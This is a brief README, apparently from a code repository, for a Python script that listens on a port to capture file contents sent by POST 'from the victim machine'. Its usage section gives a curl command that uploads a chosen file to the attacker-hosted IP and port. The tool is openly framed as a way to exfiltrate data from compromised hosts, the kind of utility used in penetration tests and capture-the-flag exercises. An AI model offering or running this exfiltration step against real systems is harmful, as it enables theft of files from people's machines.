 # simplePOSTserver

This is a python script written to capture the data (file content) sent as POST request from the victim machine 
### Note: 
By default the script will listen on port 8888 (if need please change according to your need)

## usage 
```
python3 simplePOST.py [port]
```

```
Use the curl command 'curl -i -X POST -H "Content-Type: multipart/form-data" -F "data=@./<file need to be tansfered with path>" http://<python hosted IP>:<port>/'
```
